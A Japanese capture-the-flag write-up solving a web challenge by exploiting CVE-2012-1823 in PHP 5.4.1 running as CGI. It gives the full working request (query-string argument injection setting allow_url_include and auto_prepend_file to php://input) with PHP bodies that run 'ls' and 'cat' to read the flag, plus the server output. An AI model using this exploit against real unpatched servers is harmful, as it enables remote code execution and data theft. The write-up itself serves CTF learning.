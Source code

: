 とりあえず``curl``。  

```
$ curl -i http://ctfq.u1tramarine.blue/q12/
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 02 May 2022 05:43:02 GMT
Content-Type: text/html
Content-Length: 409
Connection: keep-alive
X-Powered-By: PHP/5.4.1

<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p>2012:1823:20:22:05:02:05:43:02:41:06:55:02</p>
  </body>
</html>
```

``php 5.4.1 脆弱性``でググったら、``CVE-2012-1823``というとんでもない脆弱性が出てきた。  

``http://ctfq.u1tramarine.blue/q12/?-s``でアクセスしたらPHPのソースコードが表示される。  

```php
<?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

OWASP ZAPで以下のようにリクエスト。  

- Header
  - ``Content-Length``は省略してよい。  

```
POST http://ctfq.u1tramarine.blue/q12/?-d+allow_url_include%3dOn+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: ctfq.u1tramarine.blue
```

- Body

```php
<?php system('ls -alF');exit;
```

以下が帰ってくる。  

```
total 18672
drwxr-xr-x 1 root     root         4096 Feb 24  2021 ./
drwxr-xr-x 1 www-data www-data     4096 Feb  9  2021 ../
-rwxrwxr-x 1 root     root          109 Feb 24  2021 .htaccess*
-r--r--r-- 1 root     root           22 Feb 24  2021 flag_flag_flag.txt
-r--r--r-- 1 root     root          600 Feb 24  2021 index.php
-r-xr-xr-x 1 root     root     19093315 Feb 24  2021 php.cgi*
```

フラグファイル名が判明したので、OWASP ZAPでHeader部は先程のままに、Body部を以下のように変えてリクエスト。  

```php
<?php system('cat ./flag_flag_flag.txt');exit;
```

### 参考

- [CGI版PHPにリモートからスクリプト実行を許す脆弱性(CVE-2012-1823) ](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)
- [もっとも悪用されたPHPの脆弱性CVE-2012-1823を検証する youtube](https://www.youtube.com/watch?v=XiIPXQX8RRU)
